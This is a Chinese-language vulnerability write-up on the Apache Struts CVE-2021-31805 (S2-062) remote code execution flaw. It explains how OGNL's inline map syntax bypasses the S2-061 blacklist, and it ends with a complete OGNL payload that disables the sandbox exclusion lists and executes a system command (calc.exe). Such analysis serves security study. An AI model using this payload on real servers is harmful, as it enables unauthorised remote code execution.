


- [CVE-2021-31805(s2-062) Struts2 远程代码执行](#cve-2021-31805s2-062-struts2-远程代码执行)
  - [影响版本](#影响版本)
  - [原理分析](#原理分析)
    - [s2-061 补丁](#s2-061-补丁)
    - [Bypass](#bypass)
    - [漏洞复现](#漏洞复现)
  - [参考](#参考)
# CVE-2021-31805(s2-062) Struts2 远程代码执行
## 影响版本
Struts 2.0.0 - Struts 2.5.29
## 原理分析
S2-062触发OGNL和之前的都相似,只不过从id标签变成了name标签,而name标签在解析时不会将结果回显,但二次解析原理流程都是差不多的,主要在于绕过之前沙盒rce.  
example:  
```jsp
<%@ page
        language="java"
        contentType="text/html; charset=UTF-8"
        pageEncoding="UTF-8" %>
<%@ taglib prefix="s" uri="/struts-tags" %>
<html>
<head>
    <title>demo</title>
</head>
<s:textfield  label="test1" name="%{name}">hi</s:textfield>
</body>
</html>1
```
### s2-061 补丁
在s2-061的补丁中依旧是添加了黑名单,将`org.apache.tomcat`类也加入了黑名单,导致无法通过`org.apache.tomcat.InstanceManager`来创建BeanMap对象实例.  

### Bypass
问题在于OGNL语法中支持直接创建一个Map类型对象.  

所以直接执行`#@org.apache.commons.collections.BeanMap@{}`即可得到S2-061中的BeanMap了,而不用再使用`org.apache.tomcat.InstanceManager`来获取BeanMap从而绕过了黑名单.  
### 漏洞复现
直接替换BeanMap相关部分即可.  
poc:  
```
(#request.map=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) +
(#request.map2=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) +
(#request.map3=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) +
(#request.get('map3').put('excludedPackageNames',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0) +
(#request.get('map3').put('excludedClasses',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0) +
(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'}))
```

## 参考
https://mc0wn.blogspot.com/2021/04/exploiting-struts-rce-on-2526.html